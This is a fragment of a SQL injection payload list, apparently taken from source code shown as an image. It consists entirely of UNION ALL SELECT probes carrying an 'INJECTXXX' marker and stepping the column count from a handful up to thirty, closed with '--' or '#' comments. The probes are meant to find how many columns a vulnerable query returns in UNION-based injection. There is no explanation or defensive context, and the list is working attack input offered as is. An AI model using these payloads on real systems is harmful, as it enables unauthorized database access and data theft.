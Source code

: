       UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
      UNION ALL SELECT 'INJ'||'ECT'||'XXX'#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
      UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
